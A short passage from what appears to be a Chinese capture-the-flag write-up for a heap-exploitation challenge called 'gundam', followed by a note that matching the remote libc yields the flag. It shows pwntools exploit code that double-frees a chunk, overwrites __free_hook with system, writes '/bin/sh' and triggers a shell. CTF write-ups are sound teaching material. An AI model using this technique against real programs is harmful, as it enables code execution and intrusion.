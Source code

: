 ```python

p.sendline('2')
free(7)
free(6)
free(5)
free(4)
blow_up()

free(3)
free(3)

build(p64(free_hook))

build('/bin/sh\x00')

#gdb.attach(p)
build(p64(system))

free(5)
#gdb.attach(p)
p.interactive()
```

找到与远程相匹配的libc，就可以得到flag。

![image-20210504112951072](gundam_2.png)